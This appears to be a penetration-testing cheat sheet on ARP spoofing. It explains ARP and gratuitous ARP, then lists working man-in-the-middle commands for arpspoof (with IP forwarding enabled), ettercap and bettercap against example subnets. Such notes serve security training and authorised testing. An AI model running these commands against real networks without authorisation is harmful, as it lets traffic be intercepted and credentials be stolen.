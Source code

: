 # ⭕ ARP Spoofing

## ARP

• An ARP request message should be placed in a frame and broadcast to all computers on the network

• Each computer receives the request and examines the IP address

• The computer mentioned in the request sends a response; all other computers process and discard the request without sending a response

![](<../../.gitbook/assets/image (293) (1) (1) (1) (1).png>)

## Gratuitous ARP

• Gratuitous ARP is used by hosts to “announce” their IP address to the local network and avoid duplicate IP addresses on the network; routers and other network hardware may use cache information gained from gratuitous ARPs

• Gratuitous ARP is a broadcast packet (like an ARP request)

![](<../../.gitbook/assets/image (277) (1) (1).png>)

HOST W: Hey everyone I’m host W and my IP Address is 1.2.3.4 and my MAC address is 12:34:56:78:9A:BC

## ARP Spoofing

### arpspoof

```
arpspoof -t [target] -r [router]
```

example:

#### 1. Enable ip forwarding first

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### 2. tell 172.16.5.1 that if they need to communicate with 172.16.5.23 they must pass from the attacker system

```
arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.23 
```

#### now, in a separate terminal

#### 3. tell 172.16.5.23 that if the need to communicate with 172.16.5.1 they must pass from the pentester system

```
arpspoof -i tap0 -t 172.16.5.23 -r 172.16.5.1
```

### Ettercap

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

### Bettercap

#### Refer to [Bettercap cheat sheet](arp-spoofing.md#bettercap) for full documentation.

specify a number of IP addresses, comma=separated

```
set arp.spoof.targets IPs
```

turn ARP spoof on/off

```
arp.spoof on / off
```

#### When the arp.spoof module is started, Bettercap will automatically configure the OS features for the MitM attack (such as turning on IP forwarding on Linux systems)
